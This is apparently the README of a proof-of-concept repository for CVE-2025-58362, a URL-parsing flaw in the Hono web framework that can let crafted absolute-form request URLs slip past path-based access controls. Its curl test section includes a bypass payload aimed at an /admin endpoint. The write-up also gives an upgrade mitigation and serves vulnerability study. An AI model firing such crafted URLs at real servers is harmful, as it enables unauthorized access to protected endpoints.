 # CVE-2025-58362 PoC - Vulnerable Hono Server

This demonstrates the CVE-2025-58362 vulnerability in Hono framework version 4.8.0.

## Vulnerability Details

- **CVE ID**: CVE-2025-58362
- **Package**: npm hono
- **Affected Versions**: >= 4.8.0, < 4.9.6
- **Fixed Version**: 4.9.6
- **Severity**: High (CVSS 7.5)

## Description

The original implementation relied on fixed character offsets when parsing request URLs. Under certain malformed absolute-form Request-URIs, this could lead to incorrect path extraction, potentially allowing unauthorized access to protected endpoints.

## Setup

1. Install dependencies:
```bash
npm install
```

2. Start the vulnerable server:
```bash
npm start
```

The server will start on port 3000.

## Running the PoC

### Automated PoC Execution
```bash
# Make script executable
chmod +x run.sh

# Run complete PoC (recommended)
./run.sh
```

### Using npm Script
```bash
# Run complete PoC
npm run poc
```

### What the PoC Does
The script automatically performs these steps:
1. **Build Docker image** with vulnerable Hono 4.8.0
2. **Start server** on port 3000
3. **Health check** (5 attempts with 2s delay)
4. **Vulnerability testing** with multiple test cases
5. **Clean up** (remove container and image)

### Manual Testing (Optional)
If you want to test manually after running the PoC:
```bash
# Start server manually
npm start

# Test with curl
curl http://localhost:3000/admin
curl "http://localhost:3000/https://example.com:8080@evil.com/admin"
```

## Testing the Vulnerability

Once the server is running, test with curl:
```bash
# This should be blocked (normal admin request)
curl http://localhost:3000/admin

# This might bypass security (vulnerable URL)
curl "http://localhost:3000/https://example.com:8080@evil.com/admin"
```

## Expected Behavior

- Normal `/admin` requests should be blocked (403 Forbidden)
- Malicious URLs with complex structures might bypass the security middleware
- The vulnerability occurs due to incorrect path parsing in Hono 4.8.0

## Security Impact

If proxy ACLs are used to protect sensitive endpoints such as `/admin`, this flaw could allow unauthorized access. The confidentiality impact depends on what data is exposed.

## Mitigation

Upgrade to Hono version 4.9.6 or later, which fixes the URL parsing logic.

## Files

- `server.js` - Vulnerable Hono server using version 4.8.0
- `package.json` - Dependencies including vulnerable Hono version
- `Dockerfile` - Docker configuration for the vulnerable server
- `run.sh` - Shell script for Docker operations
- `.dockerignore` - Files to ignore during Docker build
